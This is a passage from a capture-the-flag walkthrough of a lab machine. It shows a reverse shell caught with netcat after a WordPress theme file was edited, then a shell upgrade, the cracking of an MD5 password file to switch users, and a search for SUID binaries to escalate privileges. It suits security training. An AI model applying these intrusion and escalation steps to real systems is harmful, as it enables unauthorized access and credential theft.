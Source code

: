 When you finish the setup, visit the page we have edited: `http://{target_IP}/wp-content/themes/twentyfifteen/404.php`

 And just like that, we got a reverse shell! In order to have a functional shell though we can issue the following:
```terminal
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.11.31.131] from (UNKNOWN) [10.10.117.187] 51538
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
15:21:18 up  5:21,  0 users,  load average: 0.00, 0.01, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ export TERM=xterm
export TERM=xterm
daemon@linux:/$ ^Z #pressed ctrl+z
zsh: suspended  nc -lnvp 1234

$ stty raw -echo;fg                                                                                                                          148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 1234

daemon@linux:/$
 ```

# **Privelege Escalation**

## robot

Navigating to /home/robot we find out 2nd key, but we can read it, there is also a file called password.raw-md5 and we can read it, i cracked it using [crackstation](https://crackstation.net/) and got robot's password.
Now let's change the user using the command `su robot` and supplying the password we cracked.

```terminal
daemon@linux:/home/robot$ su robot
Password:
robot@linux:~$ whoami
robot
```
Now we can read our 2nd key.
## root

Let's now upgrade to root and get the 3rd key.
Before running any privilege escalation or enumeration script, let's check the basic commands for elevating
privileges like  sudo  and  id :
```terminal
robot@linux:~$ sudo -l
[sudo] password for robot:
Sorry, user robot may not run sudo on linux.
robot@linux:~$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$
```
We got nothing, let's now look for some SUID binaries using:`find / -type f -perm -04000 2>/dev/null`
